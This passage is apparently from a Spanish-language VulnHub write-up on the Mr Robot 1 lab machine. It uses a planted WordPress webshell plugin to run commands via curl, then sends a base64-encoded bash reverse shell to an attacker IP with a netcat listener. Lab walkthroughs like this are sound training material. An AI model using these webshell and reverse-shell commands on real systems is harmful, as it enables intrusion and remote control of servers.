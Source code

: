 [Shell utilizada](https://github.com/p0dalirius/Wordpress-webshell-plugin)

![alt text](/assets/img/writeups/vulnhub/mrrobot1_vulnhub/image-9.png)

Ahora podemos ejecutar comando mediante curl o desde el navegador.


## Web shell

```bash
❯ curl -X POST '192.168.100.92/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=1(daemon) gid=1(daemon) groups=1(daemon)\n","stderr":"","exec":"id"}% 
```

Aprovechando esto podemos exfiltrar información de la máquina o crear una shell inversa.

### Shell reversa

Usamos el siguiente comando para ejecutar la revshell codificada en base64.

```bash
curl -X POST '192.168.100.92/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTAwLjIxMC80NDQ0IDA%2BJjE= | base64 -d | bash"
# y en otro terminal escuchamos el puerto 4444
nc -nlvp 4444
```

![alt text](/assets/img/writeups/vulnhub/mrrobot1_vulnhub/image-10.png)
